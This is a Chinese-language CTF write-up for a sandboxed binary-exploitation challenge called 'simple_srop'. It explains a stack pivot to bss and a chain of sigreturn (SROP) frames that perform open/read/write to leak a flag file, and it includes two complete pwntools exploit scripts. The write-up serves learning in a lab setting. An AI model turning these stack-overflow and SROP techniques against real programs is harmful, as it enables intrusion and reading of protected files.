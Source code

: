 
### simple_srop


这是一道沙箱加上srop的题目，可以看到下面的黑名单没有禁用orw

只有一个栈溢出

![[Pasted image 20240923212059.png]]

发现了sigreturn，也就是打srop

![[Pasted image 20240923212109.png]]
![[Pasted image 20240916095618.png]]
\

![[Pasted image 20240916122921.png]]


![[Pasted image 20240923212213.png]]

可以看到可用的寄存器是很少的
![[Pasted image 20240923212138.png]]
下面是内存映像

![[Pasted image 20240923212227.png]]

大致思路：因为没有输出函数，我们没办法去泄露栈的地址，我们现在只能去迁移到bss段了，然后在bss段上去构造orw，flag,去打印结果。

详细思路：如果是迁移到bss段的话，我们需要将第一次的read的rbp段填上bss段的位置，且位置的地址要以0x100的倍数，然后ret的地址填上read函数的地址，这样函数就可以再次回到read了，再次输入的时候我们就可以将flag和用sigreturnframe构造的read函数填入bss段处，这次构造的read函数的作用是将orw写入bss段。

下面是对代码的详细讲解：

这个的read函数的rsi之所以要设置成bss+0x200是因为在迁移的时候buf=bss-0x20了，然后read的时候buf=bss-0x20+0x200=bss-0x1e0,然后你这次想填入的orw的初始地址不能和第一次read的地址东西重叠了，所以我们从bss-0x200开始，就行了，下面的rsp用意是执行下一次函数的地址，我们的orw的输入的函数的地址就是从bss-0x200开始的，也就是说open的函数的地址就是bss-0x200,所以rsp=bss-0x200，rip是固定的填上syscall。

```
#read(0, bss+0x200,0x600)
#自己构造一个read函数并写入0x500字节
pay = b'flag'.ljust(0x20, b'\x00') + flat(bss, sig_ret)
#这里的bss段可以换成0xdeadbeef
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = bss + 0x200
frame.rdx = 0x500      #这里其实0x300就够了
frame.rsp = bss + 0x200  #这个是跳的open的位置执行
frame.rip = syscall
 
pay += bytes(frame)
p.send(pay.ljust(0x200, b'\x00'))
```

这个就是构造的open函数，open(bss-0x20,0,0),之所以从rdi=bss-0x20开始读取是因为flag读入的地方是buf=bss-0x20，这里调试可以看到

rsp之所以是加上0x100是因为，SigreturnFrame()的大小是248个字节，每个SigreturnFrame()前面都加上了p64(sig_ret),正好是8个字节，加起来就是248+8=256（0x100）字节。

```
frame = SigreturnFrame()
frame.rax = 2
frame.rdi = bss - 0x20 #之所以从bss-0x20开始读取是因为flag读入的地方是buf=bss-0x20，这里调试可以看到
frame.rsi = 0
frame.rdx = 0
frame.rsp = bss + 0x200 + 0x100  #这个是跳到read的位置执行
frame.rip = syscall
pay += flat(frame)
```

#read(3,bss-0x100,0x50)

#意思是向bss-0x100的地方写入0x50个字节

可以把写入的bss段的地址写入到远一点的地址，防止和输入的orw重合，但是别超出0x402000范围.

```
#read(3,bss-0x100,0x50)
#意思是向bss-0x100的地方写入0x50个字节
pay += p64(sig_ret)
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 3
frame.rsi = bss+0x700
frame.rdx = 0x50
frame.rsp = bss + 0x200 + 0x100*2  #这个是跳到write的位置执行
frame.rip = syscall
pay += flat(frame)
```

#write

#write(1,bss-0x100,0x50)

#意思是从bss-0x100的地方开始读取0x50个字节，打印出来

```
#write
#write(1,bss-0x100,0x50)
#意思是从bss-0x100的地方开始读取0x50个字节，打印出来
pay += p64(sig_ret)
frame = SigreturnFrame()
frame.rax = 1
frame.rdi = 1
frame.rsi = bss+0x700
frame.rdx = 0x50
frame.rsp = bss + 0x200 + 0x100*3  #这里的rsp是多少就无所谓了
frame.rip = syscall
pay += flat(frame)
```

##### wp

我自己更倾向于第一种写法，第二种用的是sendfile的调用，我自己看的很不习惯

```
from pwn import *
context(arch='amd64', log_level='debug')
#libc = ELF('./libc.so.6') #2.31-0ubuntu9.14
elf = ELF('./vuln')
p = process('./vuln')
 
sig_ret = 0x401296
syscall = 0x40129d
bss = 0x404800
 
#move stack to bss
p.send(flat(b'\x00'*0x20, bss, 0x4012b9).ljust(0x200, b'\x00'))
 
#read(0, bss+0x200,0x600)
#自己构造一个read函数并写入0x500字节
pay = b'flag'.ljust(0x20, b'\x00') + flat(bss, sig_ret)
#这里的bss段可以换成0xdeadbeef
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 0
frame.rsi = bss + 0x200
frame.rdx = 0x500      #这里其实0x300就够了
frame.rsp = bss + 0x200  #这个是跳的open的位置执行
frame.rip = syscall
 
pay += bytes(frame)
p.send(pay.ljust(0x200, b'\x00'))
 
pay = p64(sig_ret)
#.....................
#SigreturnFrame()的大小是248个字节
#我不是太明白为什么rsp是以0x100（256）的字节增长，我用248字节打不通

#我现在知道为什么248不行了，因为每个SigreturnFrame()前面都加上了p64(sig_ret),
#正好是8个字节，加起来就是248+8=256（0x100）字节。
#.....................

#open
#open(bss-0x20,0,0)
#打开bss-0x20的位置的文件
frame = SigreturnFrame()
frame.rax = 2
frame.rdi = bss - 0x20 #之所以从bss-0x20开始读取是因为flag读入的地方是buf=bss-0x20，这里调试可以看到
frame.rsi = 0
frame.rdx = 0
frame.rsp = bss + 0x200 + 0x100  #这个是跳到read的位置执行
frame.rip = syscall
pay += flat(frame)
 
#read
#read(3,bss-0x100,0x50)
#意思是向bss-0x100的地方写入0x50个字节
pay += p64(sig_ret)
frame = SigreturnFrame()
frame.rax = 0
frame.rdi = 3
frame.rsi = bss-0x100
frame.rdx = 0x50
frame.rsp = bss + 0x200 + 0x100*2  #这个是跳到write的位置执行
frame.rip = syscall
pay += flat(frame)
 
#write
#write(1,bss-0x100,0x50)
#意思是从bss-0x100的地方开始读取0x50个字节，打印出来
pay += p64(sig_ret)
frame = SigreturnFrame()
frame.rax = 1
frame.rdi = 1
frame.rsi = bss-0x100
frame.rdx = 0x50
frame.rsp = bss + 0x200 + 0x100*3  #这里的rsp是多少就无所谓了
frame.rip = syscall
pay += flat(frame)
 
p.send(pay)
p.interactive()
```

```
from pwn import *
context.arch='amd64'
#io=remote('192.168.52.1',61251)
io=process('./vuln')
bss=0x404400
back=0x4012B9
sig=0x401296
ret=0x000000000040101a
syscall=0x40129D
ret=0x000000000040101a

payload=cyclic(0x20)+p64(bss)+p64(ret)+p64(back)
io.sendline(payload)
#open+sendfile+read

before=SigreturnFrame()
before.rdi=0
before.rax=0
before.rsi=bss+0x200
before.rdx=0x600
before.rip=syscall
before.rsp=bss+0x200

payload=b'flag'.ljust(0x28,b'\x00')+p64(sig)+bytes(before)
io.sendline(payload)

exeve=SigreturnFrame()
syscall=0x40129D
exeve.rdi=bss-0x20
exeve.rax=2
exeve.rsi=0
exeve.rip=syscall
exeve.rsp=bss+0x200+0x200

exeve1=SigreturnFrame()
exeve1.rax=0x28
exeve1.rdi=1
exeve1.rsi=3
exeve1.rdx=0
exeve1.r10=0x300
exeve1.rip=syscall
payload=p64(sig)+bytes(exeve).ljust(0x1f8,b'\x00')+p64(sig)+bytes(exeve1)
io.sendline(payload)
io.interactive()
```